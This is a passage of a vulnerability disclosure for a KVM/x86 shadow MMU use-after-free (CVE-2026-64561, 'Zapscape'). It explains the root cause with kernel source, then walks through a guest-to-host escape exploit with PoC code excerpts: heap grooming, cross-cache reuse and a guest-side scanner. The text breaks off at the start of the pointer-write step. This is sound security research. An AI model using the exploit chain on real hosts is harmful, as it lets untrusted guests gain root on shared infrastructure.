

<p align="center">
  
</p>

# Intro



For the PoC code and usage, [see here](../README.md).

**Zapscape (CVE-2026-64561)** is a use-after-free vulnerability that occurs in the **shadow MMU** of KVM/x86. When an attacker-controlled guest that uses nested virtualization makes KVM recursively **zap** a root shadow page that is still in use during MMU page quota reclaim, KVM keeps handling the fault on a root that has already become invalid. As a result an invalid child enters the active MMU page list, and afterwards the same list link is attached to two lists at once and then freed, producing a dangling link and a post-free write.

The PoC extends this post-free write with two cross-caches, obtains the KASLR slide, and then chains the kernel's `log_wait`, SRCU workqueue, and usermode helper paths. Finally it creates `/Zapscape` with uid 0 and mode 0644 on the Host Linux that runs the vulnerable KVM.

The current public demo uses AMD nested SVM/NPT on Linux 7.1.3. The common cause of the vulnerability is in the shadow MMU that Intel and AMD use together, and on Intel both EPT page walk length 4 and 5 must be exposed to L1 in order to create the same root and child alias.

In other words, the previously published [Januscape (CVE-2026-53359)](https://github.com/V4bel/Januscape) can be triggered on Intel without any particular constraint as long as nested virtualization is enabled, but Zapscape requires that both EPT page walk length 4 and 5 be exposed to L1 on Intel. On AMD there is no such constraint.


# Background

x86 KVM uses the hardware provided Intel EPT or AMD NPT when it translates a guest address into a host physical address. However, once an L1 guest runs L2 in turn, a single hardware stage cannot handle both the EPT/NPT that L1 built and the address translation of L0. Therefore L0 KVM tracks the nested EPT/NPT that L1 built with software shadow pages.

Each shadow page consists of a `struct kvm_mmu_page` header and `sp->spt`, a 4 KiB shadow page table. The parts of the actual structure in the vulnerable kernel that this article needs are as follows.

```c
struct kvm_mmu_page {
	struct list_head link;		// <=[1]
	struct hlist_node hash_link;

	bool tdp_mmu_page;
	bool unsync;
	union {
		u8 mmu_valid_gen;
		bool tdp_mmu_scheduled_root_to_zap;
	};
	bool nx_huge_page_disallowed;

	union kvm_mmu_page_role role;	// <=[2]
	gfn_t gfn;
	u64 *spt;
	u64 *shadowed_translation;

	union {
		int root_count;		// <=[3]
		refcount_t tdp_mmu_root_count;
	};
	bool has_mapped_host_mmio;

	union {
		struct {
			unsigned int unsync_children;
			atomic_t write_flooding_count;
		};
		void *external_spt;
	};
	union {
		struct kvm_rmap_head parent_ptes;	// <=[4]
		tdp_ptep_t ptep;
	};
	DECLARE_BITMAP(unsync_child_bitmap, 512);
	struct list_head possible_nx_huge_page_link;
#ifdef CONFIG_X86_64
	struct rcu_head rcu_head;
#endif
};
```

From here on, the pinned shadow page that is reused as a root while it is also a child is called X, and the child header newly created under an invalid X is called C.

`link` at `[1]` is the 16 byte field that attaches each header to the VM's `active_mmu_pages`. When this attachment stays on the list even after C is freed, the first dangling pointer is created. `role` at `[2]` holds the page table level, whether the page is direct, the guest mode, and the invalid state, and together with `gfn` it is used as the key of the shadow page hash lookup.

`root_count` at `[3]` indicates how many times the same header is currently used as an MMU root, so the normal quota walk skips pages whose value is not 0, but the recursive path that checks `parent_ptes` at `[4]` only tests whether the last parent has disappeared and does not test `root_count`.

KVM manages the number of shadow pages allowed per VM. When there are not enough free pages, `make_mmu_pages_available()` zaps and frees old pages from `active_mmu_pages`. The normal top level walk skips active roots whose `root_count` is not 0. This vulnerability begins where the path that recursively zaps a child while cleaning up its parent does not apply the same check.

Nested EPT/NPT shadowing uses the legacy shadow MMU on both Intel and AMD. Even when L0 handles ordinary VM RAM with the TDP MMU, this vulnerable path is reached in the course of shadowing nested page tables.

# Root Cause

`FNAME(page_fault)` in the vulnerable kernel takes the MMU lock, first checks whether the current root is stale, and then secures the shadow page quota.

```c
	[...]
	r = RET_PF_RETRY;
	write_lock(&vcpu->kvm->mmu_lock);

	if (is_page_fault_stale(vcpu, fault))	// <=[5]
		goto out_unlock;

	r = make_mmu_pages_available(vcpu);	// <=[6]
	if (r)
		goto out_unlock;
	r = FNAME(fetch)(vcpu, fault, &walker);	// <=[7]

out_unlock:
	kvm_mmu_finish_page_fault(vcpu, fault, r);
	write_unlock(&vcpu->kvm->mmu_lock);
	return r;
```

`[5]` checks only the root as it was when the fault started. `[6]` runs quota reclaim after that check has finished and can recursively make the current root invalid. Yet `[7]` does not check the root again and keeps fetching under the same root. This is why the patch changed the order.

The problem is that `make_mmu_pages_available()` at `[6]` can itself zap shadow pages.

```c
static int make_mmu_pages_available(struct kvm_vcpu *vcpu)
{
	unsigned long avail = kvm_mmu_available_pages(vcpu->kvm);

	if (likely(avail >= KVM_MIN_FREE_MMU_PAGES))
		return 0;

	kvm_mmu_zap_oldest_mmu_pages(vcpu->kvm, KVM_REFILL_PAGES - avail);

	/*
	 * Note, this check is intentionally soft, it only guarantees that one
	 * page is available, while the caller may end up allocating as many as
	 * four pages, e.g. for PAE roots or for 5-level paging.  Temporarily
	 * exceeding the (arbitrary by default) limit will not harm the host,
	 * being too aggressive may unnecessarily kill the guest, and getting an
	 * exact count is far more trouble than it's worth, especially in the
	 * page fault paths.
	 */
	if (!kvm_mmu_available_pages(vcpu->kvm))
		return -ENOSPC;
	return 0;
}
```

The top level quota reclaim skips active roots.

```c
	[...]
restart:
	list_for_each_entry_safe_reverse(sp, tmp, &kvm->arch.active_mmu_pages, link) {
		[...]
		if (sp->root_count)	// <=[8]
			continue;

		unstable = __kvm_mmu_prepare_zap_page(kvm, sp, &invalid_list,
						      &nr_zapped);
		[...]
		total_zapped += nr_zapped;
		if (total_zapped >= nr_to_zap)
			break;

		if (unstable)
			goto restart;
	}
	[...]
```

Because of `[8]`, the quota walker does not directly pick the pinned root X as a top level victim.

However, the following path, which recursively zaps a nested TDP child while removing the parent SPTE, has no `child->root_count` check.

```c
			[...]
			if (tdp_enabled && invalid_list &&
			    child->role.guest_mode &&
			    !atomic_long_read(&child->parent_ptes.val))
				return kvm_mmu_prepare_zap_page(kvm, child,
								invalid_list); // <=[9]
			[...]
```

`[9]` prepares the child recursively based only on the facts that the child is in nested guest mode and that its last parent has disappeared. Therefore, once one `kvm_mmu_page` becomes the child of some nested page table and at the same time the root of another nested page table, quota reclaim can prepare that page recursively through its parent even without selecting it directly at the top level.

`__kvm_mmu_prepare_zap_page()` moves pages that are not roots to `invalid_list`, but for a root it removes the page from the active list and then marks it invalid.

```c
	[...]
	if (!sp->root_count) {
		(*nr_zapped)++;
		if (sp->role.invalid)
			list_add(&sp->link, invalid_list);	// <=[10]
		else
			list_move(&sp->link, invalid_list);
		kvm_unaccount_mmu_page(kvm, sp);
	} else {
		list_del(&sp->link);			// <=[11]
		zapped_root = !is_obsolete_sp(kvm, sp);
	}

	[...]
	if (sp->nx_huge_page_disallowed)
		unaccount_nx_huge_page(kvm, sp);

	sp->role.invalid = 1;				// <=[12]
	[...]
```

`[11]` removes the pinned X from the active list, but because a root reference remains it is not freed immediately. `[12]` changes X's role to invalid. Afterwards, when C, born under X, is prepared again in a rootless state, it is already invalid, so `[10]` uses `list_add()` rather than `list_move()`. This function has no way to know the abnormal state in which C's link is still on the active list.

Up to this point X is not freed immediately, so this is not a use-after-free in itself. The decisive problem is that the stale check finished before the quota reclaim. Even after quota reclaim has made the current root invalid, `FNAME(fetch)` keeps creating mappings under that same root.

The role of a new child is computed by copying the parent role. This function does not clear `invalid`.

```c
static union kvm_mmu_page_role kvm_mmu_child_role(u64 *sptep, bool direct,
						  unsigned int access)
{
	struct kvm_mmu_page *parent_sp = sptep_to_sp(sptep);
	union kvm_mmu_page_role role;

	role = parent_sp->role;			// <=[13]
	role.level--;
	role.access = access;
	role.direct = direct;
	role.passthrough = 0;
	[...]
}
```

`[13]` copies the entire parent role and then changes only some fields. It does not clear `invalid`, so X's invalid bit propagates into C as it is.

The code that allocates the new page attaches it to `active_mmu_pages` without checking whether that role is invalid.

```c
	[...]
	sp->mmu_valid_gen = kvm->arch.mmu_valid_gen;
	list_add(&sp->link, &kvm->arch.active_mmu_pages);	// <=[14]
	kvm_account_mmu_page(kvm, sp);

	sp->gfn = gfn;
	sp->role = role;
	hlist_add_head(&sp->hash_link, sp_list);
	[...]
```

`[14]` inserts C like a normal member of the active list without checking the inherited invalid role. Because of this, `[10]` later can add the same `C.link` to the invalid list as well.

## Intel

On Intel the core of this vulnerability is not LA57, the 5 level paging of ordinary linear addresses. The core is the page walk length of the EPT that L1 builds for L2.

When KVM builds the EPT capability to expose to L1, it puts PWL4 and PWL5 in as candidates and takes the intersection with the actual EPT capability.

```c
		[...]
		msrs->ept_caps =
			VMX_EPT_PAGE_WALK_4_BIT |	// <=[15]
			VMX_EPT_PAGE_WALK_5_BIT |	// <=[16]
			VMX_EPTP_WB_BIT |
			VMX_EPT_INVEPT_BIT |
			VMX_EPT_EXECUTE_ONLY_BIT |
			VMX_EPT_ADVANCED_VMEXIT_INFO_BIT;

		msrs->ept_caps &= ept_caps;
		[...]
```

`[15]` and `[16]` are the 4 level and 5 level EPT walk capabilities that can be exposed to L1. Because of the intersection at the end, only the bits that the actual hardware and KVM support remain.

The EPTP that L1 specifies is also checked against the page walk lengths actually exposed.

```c
	[...]
	switch (new_eptp & VMX_EPTP_PWL_MASK) {
	case VMX_EPTP_PWL_5:
		if (CC(!(vmx->nested.msrs.ept_caps & VMX_EPT_PAGE_WALK_5_BIT)))
			return false;
		break;
	case VMX_EPTP_PWL_4:
		if (CC(!(vmx->nested.msrs.ept_caps & VMX_EPT_PAGE_WALK_4_BIT)))
			return false;
		break;
	default:
		return false;
	}
	[...]
```

To overlap the same X as both a child and a root, both PWL4 and PWL5 must be visible to L1. L1 first creates a level 4 child X under a PWL5 EPT root, and then uses the same table GFN as a PWL4 EPT root. If the A/D settings and the page role are made the same in the two EPTs, KVM's shadow page hash lookup reuses the level 4 child of PWL5 as the level 4 root of PWL4 and raises `root_count`.

With PWL4 alone, the child under that root is level 3. The EPT root depth that Intel allows is 4 or 5, so a level 3 child cannot be reused as a valid EPT root. The fact that only PWL5 is supported is not sufficient either. L1 must actually construct a PWL5 child and a PWL4 root with the same GFN and the same role.

Therefore the exact condition on Intel is that nested VMX and EPT are enabled on L0, that both EPT PWL4 and PWL5 are exposed in L1's `IA32_VMX_EPT_VPID_CAP`, and that L1 actually creates that alias.

## AMD

AMD does not require a condition like Intel's EPT PWL5 capability. In a 4 level NPT environment, the public PoC overlaps the level 2 child X created by L1's long mode NPT with the level 2 root of a PAE NPT that uses the same GFN. Once the roles of the two pages become the same, `mmu_alloc_root()` finds the existing X and increments `root_count`.

```c
static hpa_t mmu_alloc_root(struct kvm_vcpu *vcpu, gfn_t gfn, int quadrant,
			    u8 level)
{
	union kvm_mmu_page_role role = vcpu->arch.mmu->root_role;
	struct kvm_mmu_page *sp;

	role.level = level;
	role.quadrant = quadrant;

	WARN_ON_ONCE(quadrant && !role.has_4_byte_gpte);
	WARN_ON_ONCE(role.direct && role.has_4_byte_gpte);

	sp = kvm_mmu_get_shadow_page(vcpu, gfn, role);	// <=[17]
	++sp->root_count;				// <=[18]

	return __pa(sp->spt);
}
```

`[17]` first looks for an existing shadow page with the GFN and the computed root role. If that result is already the child X of the long mode NPT, `[18]` makes the same header a pinned root.

AMD KVM sets the NPT shadow root to level 4 or 5 depending on the page table depth of the host. If the host is 5 level and the L1 NPT is 4 level, a level 5 passthrough wrapper is added, but when the lower children are created `kvm_mmu_child_role()` clears `passthrough`.

# Exploit

The Zapscape PoC turns the link that remains on the active list after the free into a pointer write against a page the guest controls, and repeats this action to produce kernel address leaks and arbitrary list pointer manipulation. Finding the object that was actually reused and the KASLR address after the barrier, and moving on to the next step, is also carried out by guest code.

In the current demo an unprivileged process inside the vulnerable Linux 7.1.3 acts as a directly implemented VMM that creates a VM through `/dev/kvm`. Once this process has fixed the VM and the guest memory image before the first `KVM_RUN`, the actual firing of the vulnerability and the following steps proceed only with the instructions that the two guest vCPUs execute and the KVM faults they cause.

## 1. Preparing the VM and the nested guest

The parent process that runs from the shell creates a pipe and a child before creating the VM. The parent has no KVM fd and waits for the one byte that the child sends after checking every success condition. The child owns the VM and the two vCPUs.

The child builds the following configuration.

* a 518 MiB guest_memfd
* `GUEST_MEMFD_FLAG_MMAP | GUEST_MEMFD_FLAG_INIT_SHARED`
* a `MAP_SHARED` userspace mapping and a guest_memfd memslot
* a 4 KiB anonymous read only memslot for the reset vector
* vCPU0 as the BSP and vCPU1 as the AP
* the KVM irqchip and x2APIC

The guest code and the page table image are written into the guest_memfd before the memslot is registered and before the first `KVM_RUN`. No ioctl that changes the GPR, control registers, MSRs, or MP state of a running guest is used by host userspace.

The BSP starts at the architectural reset vector and switches directly from real mode to long mode. It then writes INIT, INIT deassert, and two SIPIs to the x2APIC ICR to start the AP. The AP also enters long mode with guest code. The VMM does not inject the AP's RIP or MP state.

The two vCPU threads and the main thread start together at a three party barrier. After the barrier the vCPU threads only re-enter `KVM_RUN` and check the final TERM/PARK I/O. They do not watch the state bytes the guest wrote in order to select a step, and they do not modify guest RAM.

## 2. The pinned root and the first use-after-free

The PoC fixes not only the number of shadow pages but also the order in which each fault consumes and returns MMU header cache. The key values that determine this allocation order are as follows.

```c
[...]
enum { [...], MEMMB = 518 };			// <=[19]
[...]
size_t MEMSZ = (size_t)MEMMB * 1024 * 1024;
[...]
unsigned long quota =
	((unsigned long)(MEMSZ / 0x1000u) + 1ul) / 50ul;	// <=[20]
[...]
```

`MEMMB` at `[19]` is the size of the guest_memfd and the memslot. The number and range of faults actually raised are fixed by the `emit_touch_loop()` calls below. `[20]` uses the same computation as KVM's automatic shadow page quota for the PoC output and its own verification, and with a 518 MiB memslot plus the 1 page reset vector it comes out to 2652.

The L2 code that fills the quota touches `56 + 512 + 512 + 511` addresses at 2 MiB intervals. The trigger code that follows touches 57 addresses and then reads the next region pointed to by the incremented EBX one more time. The actual code generation part is as follows.

```c
static void emit_l2_phase_a(void)
{
	uint8_t *l = M + L2_CODE;

	[...]
	emit_touch_loop(&l, 56);
	[...]
	emit_touch_loop(&l, 512);
	[...]
	emit_touch_loop(&l, 512);
	[...]
	emit_touch_loop(&l, 511);
	[...]
}

static void emit_l2_phase_b(void)
{
	uint8_t *l = M + L2_CODE + 0x400;

	[...]
	emit_touch_loop(&l, 57);
	*l++ = 0x8b;
	*l++ = 0x03;			// <=[21]
	[...]
}
```

`[21]` is the `mov eax, [ebx]` that the loop executes after incrementing EBX 57 times, and it is the vulnerable fault that goes through quota reclaim at region 58 and makes X invalid. The preceding touches fault different NPT leaves to fill shadow pages up to the quota boundary, and because the guest changes the NPT entries and the paging mode between the two phases, the allocation order is not the same as raising the same number of faults all at once.

The order that creates the pinned root X is as follows.

1. Create a level 2 child X under an upper page of the long mode NPT.
2. Make the PAE NPT root use the same GFN, level, access, and guest mode role as X.
3. `[17]` of `mmu_alloc_root()` finds X instead of creating a new header, and `[18]` raises `root_count`.
4. The quota walker skips X itself because of `[8]`, but after selecting X's parent it prepares X recursively through `[9]`.
5. `[11]` detaches X from the active list and `[12]` makes it invalid. Because a root reference remains, X is not freed at this point.
6. The same page fault has already passed `[5]`. `[7]` keeps fetching under the invalid X and, by way of `[13]` and `[14]`, inserts the invalid child C into the active list.

After creating X and C, the PoC finishes the final section that returns the target slab inside the trigger of the same AP vCPU, and fixes the number of PAE roots to three at compile time.

```c
[...]
#define PHASE_B_PAE_ROOTS 3u			// <=[22]
_Static_assert(
	PHASE_B_PAE_ROOTS == 3u,
	[...]);

[...]
static uint32_t npt_pd_addr(unsigned int i)
{
	return i ? NPT_PD_MORE + (i - 1) * 0x1000u : NPT_PD;
}

[...]
*q++ = 0xb8;
*(uint32_t *)q = 0x80050011u;			// <=[23]
q += 4;
*q++ = 0x0f;
*q++ = 0x22;
*q++ = 0xc0;
uint8_t *same_cpu_root_flood = q;

for (unsigned int pd = 0; pd < PHASE_B_PAE_ROOTS; pd++)
	for (unsigned int write = 0; write < 3u; write++)
		emit32_store8_imm(&q, npt_pd_addr(pd) + 0xff8u, 0); // <=[24]
[...]
```

`[22]` fixes the number of PAE roots to exactly three at build time to match this header cache consumption order, preventing a fourth root from changing the consumption boundary.

`[23]` changes the AP's CR0 from `0x80000011` to `0x80050011` so that WP and AM are toggled together, avoiding KVM's pure WP special case that applies when only WP changes and running the MMU unload and reset path that is needed. `[24]` writes 1 byte three times each to the raw PDs `0x32ff8`, `0x35ff8`, and `0x36ff8`, which are aligned to 8 byte PTEs, to induce the write flooding decision that follows.

```c
static bool detect_write_flooding(struct kvm_mmu_page *sp)
{
	if (sp->role.level == PG_LEVEL_4K)
		return false;

	atomic_inc(&sp->write_flooding_count);
	return atomic_read(&sp->write_flooding_count) >= 3;	// <=[25]
}
```

Because of `[25]`, the third store to each non-leaf PD causes a prepare. In total 9 stores clean up the three roots and their descendants on the same trigger vCPU and fix the order in which the target slab is returned.

Freeing C happens in two stages. C is on the active list with an inherited invalid role, so a rootless prepare adds it to the invalid list as well through `[10]`. The commit walks that list and frees the actual header.

```c
static void kvm_mmu_commit_zap_page(struct kvm *kvm,
				    struct list_head *invalid_list)
{
	struct kvm_mmu_page *sp, *nsp;

	[...]
	list_for_each_entry_safe(sp, nsp, invalid_list, link) {
		WARN_ON_ONCE(!sp->role.invalid || sp->root_count);
		kvm_mmu_free_shadow_page(sp);		// <=[26]
	}
}

static void kvm_mmu_free_shadow_page(struct kvm_mmu_page *sp)
{
	kvm_mmu_check_sptes_at_free(sp);

	hlist_del(&sp->hash_link);
	list_del(&sp->link);
	free_page((unsigned long)sp->spt);
	free_page((unsigned long)sp->shadowed_translation);
	kmem_cache_free(mmu_page_header_cache, sp);	// <=[27]
}
```

`[26]` commits C from the invalid list, and `[27]` returns the 184 byte header to the `kvm_mmu_page_header` cache. The problem is that when C was added to the invalid list its neighbors on the active list were not updated. Therefore, even after C is freed, the active head or the predecessor keeps pointing at `C.link`.

When the next shadow page is inserted at the front of the active list, the first write of the standard `list_add()` dereferences that dangling link.

```c
static inline void __list_add(struct list_head *new,
			      struct list_head *prev,
			      struct list_head *next)
{
	if (!__list_add_valid(new, prev, next))
		return;

	next->prev = new;			// <=[28]
	new->next = next;
	new->prev = prev;
	WRITE_ONCE(prev->next, new);
}
```

If `next` at `[28]` is the freed C, the kernel virtual address of the new shadow page header is written to `C.link.prev`, that is, to offset 8 from C. Once the first cross-cache succeeds, this 8 byte write appears inside a page of the first fault range that the guest can read.

## 3. Two cross-caches

The current PoC performs the cross-cache in a guest_memfd based KVM memory allocation environment, which is highly stable. In an anonymous mapping or memfd based environment, a more complex and less stable strategy is needed to reallocate an `UNMOVABLE` page as a `MOVABLE` page.

From here on the first and second guest fault ranges are called Stage 1 and Stage 2. The two cross-caches cross the same allocator boundary, but Stage 1 finds the location of the freed C and the active list address, while Stage 2 secures an independent 4 KiB page N in which the guest places the objects it builds, the verification values, and the payload.

### 3.1 From a SLUB page to a guest_memfd folio

MMU headers are allocated not from a generic `kmalloc` bucket but from a dedicated cache whose size is exactly that of `struct kvm_mmu_page`.

```c
[...]
mmu_page_header_cache = kmem_cache_create("kvm_mmu_page_header",
					  sizeof(struct kvm_mmu_page),
					  0, SLAB_ACCOUNT, NULL);	// <=[29]
[...]
```

The object size at `[29]` is 184 bytes in this config, and 22 of them fit in one order 0 slab. A slab whose last live header has been freed by `[27]` is returned to the buddy allocator through the following path once it exceeds SLUB's condition for keeping a partial slab.

```c
[...]
if (unlikely(!new.inuse && n->nr_partial >= s->min_partial))
	goto slab_empty;
[...]
slab_empty:
	if (likely(!was_full)) {
		remove_partial(n, slab);
		[...]
	}
	[...]
	discard_slab(s, slab);				// <=[30]

static void discard_slab(struct kmem_cache *s, struct slab *slab)
{
	dec_slabs_node(s, slab_nid(slab), slab->objects);
	free_slab(s, slab);
}

static void __free_slab(struct kmem_cache *s, struct slab *slab,
			bool allow_spin)
{
	struct page *page = slab_page(slab);
	int order = compound_order(page);

	[...]
	__ClearPageSlab(page);
	[...]
	if (allow_spin)
		free_frozen_pages(page, order);
	else
		free_frozen_pages_nolock(page, order);
}
```

`[30]` is not an action that moves a single object to another cache. It is the boundary that removes the `PageSlab` state of the whole 4 KiB slab that held 22 headers and returns it to the page allocator. The PoC creates this condition by preparing the remaining live headers of the same slab in a fixed order.

When the guest first faults a guest_memfd index that does not exist yet, KVM creates an order 0 folio in the gmem fault path.

```c
static struct folio *kvm_gmem_get_folio(struct inode *inode, pgoff_t index)
{
	struct mempolicy *policy;
	struct folio *folio;

	[...]
	folio = __filemap_get_folio_mpol(inode->i_mapping, index,
					 FGP_LOCK | FGP_CREAT,
					 mapping_gfp_mask(inode->i_mapping),
					 policy);		// <=[31]
	[...]
	return folio;
}

int kvm_gmem_get_pfn(struct kvm *kvm, struct kvm_memory_slot *slot,
		     gfn_t gfn, kvm_pfn_t *pfn, struct page **page,
		     int *max_order)
{
	[...]
	folio = __kvm_gmem_get_pfn(file, slot, index, pfn, max_order);
	if (IS_ERR(folio))
		return PTR_ERR(folio);

	if (!folio_test_uptodate(folio)) {
		clear_highpage(folio_page(folio, 0));	// <=[32]
		folio_mark_uptodate(folio);
	}
	[...]
}
```

`FGP_CREAT` at `[31]` brings in a folio that is not in the address space from the page allocator. When this allocation receives the PFN that `[30]` has just returned, the header slab page becomes a guest_memfd page. `[32]` clears the new folio before handing it to the guest, so the PoC does not expect the header contents from before the free to remain. The pointers it needs are written anew after the reallocation by `[28]` and the list writes that follow.

In the Linux 7.1.3 demo environment the PoC fixes the order of fault occurrence, MMU header cache refill, and the return of the slab page to the allocator on the same vCPU, so that the PFN is reused. If it is not reused, the guest's candidate search code stops execution.

### 3.2 The first cross-cache and locating C

The two guest fault ranges do not overlap.

```c
[...]
#define SPRAY_START 0x1000000u
[...]
#define SPRAY1_END  0x04000000u
#define SPRAY2_START SPRAY1_END
#define SPRAY2_END  0x10000000u			// <=[33]
[...]
```

At `[33]`, Stage 1 is `[0x01000000, 0x04000000)` and Stage 2 is `[0x04000000, 0x10000000)`. The guest code and the NPT image written before the first `KVM_RUN` are outside these two ranges, and userspace does not prefault the whole of Stage 1 and Stage 2.

Before the first cross-cache, the BSP guest performs the following sparse prefault.

```c
[...]
#define SPARSE_PREFAULT_END 0x1fc00000u
[...]
e8(&t, 0xb8);
e32(&t, SPRAY_START);
uint8_t *prefault_loop = t;
[...]
e32(&t, 0x200000);
[...]
e32(&t, SPARSE_PREFAULT_END);			// <=[34]
[...]
```

`[34]` touches only one 4 KiB page every 2 MiB in `[SPRAY_START, 0x1fc00000)` in advance with guest instructions. Most of Stage 1 and Stage 2 still has no folio, and the dense Stage 1 or Stage 2 loop right after the slab return faults the rest at 4 KiB intervals. The sparse prefault is not a host reclaim action but a step that prepares the state of the page allocator.

After a Stage 1 fault has taken the target PFN and `[28]` writes the address of the new shadow page header to C+8, the guest's candidate search code walks the range in 8 byte units. The following is the part of the actual x86 code emitter that filters candidates.

```c
static void emit_guest_scanner(uint8_t *p1_hook)
{
	uint8_t *p = M + G1_RELOC_CODE;

	[...]
	e32(&p, KASLR_ARENA_HI_MIN);
	below_direct_map[0] = emit_rel32_jcc(&p, 0x82);
	[...]
	e32(&p, KASLR_ARENA_HI_END);
	past_direct_map[0] = emit_rel32_jcc(&p, 0x83);	// <=[35]

	[...]
	e8(&p, 0xf0);
	e8(&p, 0x0f);
	e8(&p, 0xc7);
	e8(&p, 0x0e);
	[...]
	e32(&p, MMU_HEADER_SIZE);
	e8(&p, 0xf7);
	e8(&p, 0xf3);
	[...]
	e8(&p, MMU_HEADERS_PER_SLAB - 1u);	// <=[36]
	[...]
	e8(&p, 0x83);
	e8(&p, 0xfd);
	e8(&p, 0x01);
	bad_count = emit_rel32_jcc(&p, 0x85);	// <=[37]
	[...]
}
```

`[35]` checks twice whether the high dword of the pointer is in `[0xffff8880, 0xfffffe00)`. The second value is the result of reading it again atomically with `LOCK CMPXCHG8B`. A range check alone does not prove a direct map pointer, so 8 byte alignment and the 184 byte division at `[36]` are applied together. Both the header slot the pointer points at and the C slot derived by subtracting 8 from the qword address must line up with the 22 object positions in the page. Whether C's `[C, C+168)` range lies inside the same 4 KiB page as Stage 1 is also checked separately.

`[37]` checks that exactly one candidate satisfies all of these conditions, and if not, the guest stops execution immediately.

While generating the code, the PoC records in a relocation table only the machine code positions that contain an absolute address computed from `TARGET_C_BASE`.

```c
[...]
append_c_reloc((uint32_t)(p - M));		// <=[38]
[...]
if (expected_c_relocs != 441u) {			// <=[39]
	[...]
}
[...]
```

`[38]` records that position and `[39]` enforces that the count is exactly 441. The search code that runs adds the difference between the C it found and `TARGET_C_BASE` to each 32-bit address field the table points at and records the number applied, so even if the Stage 1 address differs, the host does not modify the code again.

In the first reuse step, C's list relationships are used to obtain the `active_mmu_pages` head. This list head address becomes the reference for computing the `struct kvm` base later.

### 3.3 The second cross-cache and N

After the first cross-cache comes a separate header allocation and free sequence. Once the BSP's header allocation code has finished the preceding cache cleanup, it serializes the allocation and prepare order of the three auxiliary headers and C with state bytes exchanged with the AP. The core code in the PoC source that empties the second slab and faults Stage 2 is as follows.

```c
[...]
uint8_t *wait_conveyor_p = t;

e8(&t, 0x80);
e8(&t, 0x3c);
e8(&t, 0x25);
e32(&t, SPRAY_ARM + 35);
e8(&t, 'P');
e8(&t, 0x74);
e8(&t, 0x04);
e8(&t, 0xf3);
e8(&t, 0x90);
e8(&t, 0xeb);
e8(&t, (uint8_t)(wait_conveyor_p - (t + 1)));
emit64_flood_prepare_page(&t, NPT_PD);
[...]
uint8_t *wait_conveyor_bc = t;

e8(&t, 0x80);
e8(&t, 0x3c);
e8(&t, 0x25);
e32(&t, SPRAY_ARM + 38);
e8(&t, 'B');
e8(&t, 0x74);
e8(&t, 0x04);
e8(&t, 0xf3);
e8(&t, 0x90);
e8(&t, 0xeb);
e8(&t, (uint8_t)(wait_conveyor_bc - (t + 1)));
emit64_flood_prepare_page(&t, NPT_PD);
emit64_flood_prepare_page(&t, npt_pd_addr(1));
[...]
emit64_flood_prepare_page(&t, H_NPT_PD0);
emit64_flood_prepare_page(&t, H_NPT_PD1);
[...]
emit64_flood_prepare_page(&t, npt_pd_addr(2));	// <=[40]

[...]
e8(&t, 0xb8);
e32(&t, SPRAY2_START);
uint8_t *stage2_loop = t;
[...]
e32(&t, 0x1000);
[...]
e32(&t, SPRAY2_END);
[...]
```

`[40]` prepares each non-leaf shadow page with `emit64_flood_prepare_page()`, which emits three 8 byte aligned 1 byte stores. The state bytes exchanged between the AP and the BSP confirm that the allocation, prepare, and free stages of the three auxiliary headers and C finished in the fixed order. When the last free returns the emptied header slab through `[30]`, the Stage 2 page fault that follows can reuse that PFN as N.

In each 4 KiB page of Stage 2, an initial value is written to the first qword in order to identify the N candidate. The PoC source defines this initial value and the value KVM overwrites it with as `POC_Q1_SENTINEL` and `POC_Q1_REPLACEMENT`, and from there it numbers the seven steps that reuse C from 2 to 8.

```c
[...]
#define POC_Q1_SENTINEL UINT64_C(0x000ffffffffff001)
#define POC_Q1_REPLACEMENT UINT64_C(0x8000000000000000)	// <=[41]

[...]
e8(&p, 0xc7);
e8(&p, 0x00);
e32(&p, (uint32_t)POC_Q1_SENTINEL);
e8(&p, 0xc7);
e8(&p, 0x40);
e8(&p, 0x04);
e32(&p, (uint32_t)(POC_Q1_SENTINEL >> 32));	// <=[42]
[...]
e8(&p, 0x83);
e8(&p, 0xfd);
e8(&p, 0x01);
bad[nbad++] = emit_rel32_jcc(&p, 0x85);		// <=[43]
[...]
```

`[41]` defines the initial value and the expected value after the KVM write, and `[42]` writes the initial value to the first qword of each 4 KiB page of Stage 2. The code that finds N allows only these two values through `LOCK CMPXCHG8B`, and at `[43]` it checks that exactly one page has changed to the expected value, saves that GPA as the N candidate, and then zeroes Stage 2 again.

```c
[...]
e8(&p, 0x89);
e8(&p, 0x3d);
e32(&p, KS_N_GPA);
e8(&p, 0x3b);
e8(&p, 0x3d);
e32(&p, POC_Q1_N_GPA);
uint8_t *match_bad = emit_rel32_jcc(&p, 0x85);	// <=[44]
[...]
```

`[44]` compares whether the page base found at `N+8` in the first pointer write step is exactly the same as the N candidate saved earlier. The N GPA therefore does not depend only on a fixed address decided at build time or on a value recorded once. Each following step then uses the expected qword of N, restores it to 0, and checks that Stage 2 is 0 again before the next step.

## 4. The repeatable two pointer writes and the KASLR leak

### 4.1 The two pointer writes

Once C can be rebuilt inside a guest_memfd page, its `possible_nx_huge_page_link` is used as a manipulated `list_head`. The two pointer writes that KVM performs when it deletes this link are as follows.

```c
